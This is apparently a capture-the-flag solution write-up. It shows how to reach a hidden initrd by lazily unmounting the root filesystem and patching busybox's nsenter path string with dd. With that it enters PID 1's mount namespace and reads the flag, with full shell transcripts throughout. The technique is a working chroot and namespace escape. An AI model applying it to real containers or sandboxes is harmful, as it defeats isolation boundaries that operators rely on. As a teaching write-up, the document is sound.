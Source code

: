The challenge needs to expose the initrd. One potential way to find out the
solution, without reading all of the kernel sources, is:
  * Find the relevant
    [kernel documentation](https://github.com/torvalds/linux/blob/master/Documentation/filesystems/ramfs-rootfs-initramfs.rst)
  * See this thing is called rootfs
  * Google about it
  * Find https://unix.stackexchange.com/a/455136 (section "Can we prove that
    rootfs is still mounted?")
  * Test the main reproducer and see that it works on a normal computer

Alternatively, one could find how the initrd was hidden:
  * [prepare_namespace](https://elixir.bootlin.com/linux/v5.12.14/C/ident/prepare_namespace)
  * a mount followed by a chroot, need to undo that
  * undo mount = lazy unmount, so need a chroot escape
  * see [set_fs_root](https://elixir.bootlin.com/linux/v5.12.14/source/fs/init.c#L76)
  * xref https://elixir.bootlin.com/linux/v5.12.14/C/ident/set_fs_root, containing:
    * init_chroot
    * init_mount_tree
    * new mount namespace via clone / unshare
    * chroot
    * setns
  * analyse:
    * init_chroot and init_mount_tree are called at most once during init
    * chroot syscall uses a string path so a chicken-and-egg problem
  * it's either setns or clone / unshare, can be dealt with by elimination.

So after knowing the exploit:
  * Either get the payload inside the remote VM, or do it with busybox:
    * Unmount part is easy, the problem is that to setns we don't have
      `/proc` anymore and it cannot be mounted again on this detached fs:

```
/ # mount
/dev/root on / type ext4 (rw,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
devtmpfs on /dev type devtmpfs (...)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
sys on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
/ # umount -l /
/ # nsenter -t 1 -m
nsenter: can't open '/proc/1/ns/mnt': No such file or directory
/ # mount
mount: no /proc/mounts
/ # ls /proc
/ # mount -t proc proc proc
mount: mounting proc on proc failed: Invalid argument
```

    * How to keep proc alive? Well, umount detach won't destroy cwd, so we
      have access to proc from cwd, but nsenter wants to use absolute paths:

```
/ # cd /proc
/proc # umount -l /
sh: getcwd: No such file or directory
(unknown) # ls
[...]
(unknown) # nsenter -t 1 -m
nsenter: can't open '/proc/1/ns/mnt': No such file or directory
sh: getcwd: No such file or directory
(unknown) # ls /proc
sh: getcwd: No such file or directory
(unknown) # ls /
bin         dev         etc         linuxrc     lost+found  proc        sbin        sys         tmp         usr
sh: getcwd: No such file or directory
```

    * We can patch busybox! Buxybox's nsenter is at
      [nsenter.c](https://elixir.bootlin.com/busybox/1.33.1/source/util-linux/nsenter.c#L147),
      and a quick look should find the format string it uses, so:

```
/ # strings -t d /bin/busybox | grep '/proc/%u/%s'
1102911 /proc/%u/%s
/ # echo -ne './%u/%s\0' | dd of=/bin/busybox obs=1 seek=1102911 conv=notrunc
dd: can't open '/bin/busybox': Text file busy
```

    * Oh, just need a copy so it's a separate inode:

```
/ # cp /bin/busybox /bin/busybox.new
mv /bin/busybox.new /bin/busybox
cd /proc
umount -l /
nsenter -t 1 -m busybox ash/ # echo -ne './%u/%s\0' | dd of=/bin/busybox.new obs=1 seek=1102911 conv=notrunc
0+1 records in
8+0 records out
8 bytes (8B) copied, 0.000589 seconds, 13.3KB/s
/ # mv /bin/busybox.new /bin/busybox
/ # cd /proc
/proc # umount -l /
sh: getcwd: No such file or directory
(unknown) # nsenter -t 1 -m
nsenter: can't execute '/bin/sh': No such file or directory
sh: getcwd: No such file or directory
```

    * Oh did we succeed? Yes, `/flag` now exists:

```
(unknown) # nsenter -t 1 -m /flag
nsenter: can't execute '/flag': Permission denied
sh: getcwd: No such file or directory
```

    * The question now is  to see the flag. Unfortunately, `setns(2)` syscall
      [destroys cwd](https://elixir.bootlin.com/linux/v5.12.14/source/kernel/nsproxy.c#L509),
      so we can't use this cwd trick anymore, and unless can utilize fds, or
      we are a binary that is still running, we are limited to initrd now. Fortunately we have busybox in initrd so:

```
(unknown) # nsenter -t 1 -m busybox ash
/ # busybox cat /flag
CTF{TestFlag}
```

    * For extra fun, yeah rootfs is real:

```
/ # busybox mkdir proc
/ # busybox mount -n -t proc -o nosuid,noexec,nodev proc /proc
/ # busybox mount
none on / type rootfs (rw)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
```
